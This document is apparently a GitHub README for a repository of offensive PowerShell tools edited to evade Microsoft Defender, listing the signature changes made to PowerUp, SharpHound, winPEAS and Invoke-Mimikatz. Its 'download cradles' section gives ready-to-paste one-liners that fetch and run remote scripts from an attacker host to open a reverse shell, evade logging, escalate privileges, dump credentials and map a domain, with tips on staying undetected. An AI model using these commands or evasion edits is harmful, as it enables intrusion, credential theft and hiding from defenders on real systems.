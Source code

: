 
<h1 align="center">
<br>
<img src=ihateamsi.jpg height="310" border="2px solid #555">
<br>
i hate AMSI
</h1>
<h4 align="center">
disabling RTM is for noobs
</h4>

## why is this public

Even though I hate MDE, showing off how easy it is to bypass AMSI can only help make it better. Right now it is the only protection for a significant amount of home users and smaller enterprises which is bad.

## AMSI bypass methods

I will unprivate soon :)

## MDE bypassed scripts

These are all just for defender - I just used defendercheck and made some edits. Anything serious and you're on your own

- `PowerUp.ps1`
    - Removed service binaries. Hijack it yourself!
    - HTML reports removed.

- `Invoke-PowerShellTcp`
    - Removed some comments and error messages.

- `InvisiShell`
    - No changes.

- `SharpHound.ps1`
    - Had to obfuscate a reflection string.

- `winPEAS.bat`
    - Obfuscated color line string variable (terrible signature.)

- `Invoke-Mimimkatz` **[NOT YET BYPASSED]**
    - Had to add some base64-strings and change a parameter on PowerShell script. `DumpCreds` is now `GetPwned`.
    - The source VS solution will need to be edited as the assembly blob is signatured pretty heavily. I may also just work on another encoding mechanism to update the script in the future with ![this](https://github.com/g4uss47/Invoke-Mimikatz) dope script.

## download cradles

These only work on PowerShell 3.0. Don't downgrade to 2.0 you will get caught

- **Reverse Shell**
```
iex (iwr http://172.16.100.X/Invoke-PowerShellTcp-OBFS.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443
```

- **Log Evasion**
```
iwr http://172.16.100.X/InvisiShellProfiler.dll -UseBasicParsing -OutFile InvisiShellProfiler.dll;
iex (iwr http://172.16.100.X/RunWithRegistryNonAdmin.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/RunWithPathAsAdmin.bat -UseBasicParsing);
```

- **Privilege Escalation**
```
iex (iwr http://172.16.100.X/winPEAS-OBFS.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/PowerUp.ps1 -UseBasicParsing); Invoke-AllChecks;
```

- **Dump Creds**
```
iex (iwr http://172.16.100.X/Invoke-Mimikatz-OBFS.ps1 -UseBasicParsing); Invoke-Mimikatz -GetPwned;
```

- **Domain Abuse**

SHARPHOUND TOUCHES DISK OBVIOUSLY

```
iex (iwr http://172.16.99.77/SharpHound.ps1); Invoke-BloodHound -CollectionMethod All -Stealth -ExcludeDCs;
```

## to-be-added

- `Invoke-SessionHunter`
- `PowerView`
- `Invoke-Rubeus`
- obfuscated shell for .net reflected assemblies (empire already has a folder for this but I will make some custom bypasses)
